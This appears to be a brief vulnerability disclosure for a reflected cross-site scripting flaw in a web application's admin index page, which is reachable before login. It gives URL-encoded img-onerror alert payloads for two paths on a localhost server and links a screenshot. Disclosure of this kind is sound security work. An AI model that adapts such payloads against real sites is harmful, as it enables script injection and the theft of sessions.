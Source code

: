 # name 
reflection xss

# path
http://127.0.0.1:9999/admin/index
befor login

# xss Payload
PAYLOAD update
http://127.0.0.1:9999/viewc/admin/%3Cimg%20src=lll%20onerror=alert(111)%3E%3C!--


DEprecate: http://127.0.0.1:9999/admin/index/%3Cimg%20src=lll%20onerror=alert(111)%3E%3C!--

# image

[![](./img/xss1.png)](./img/xss1.png)
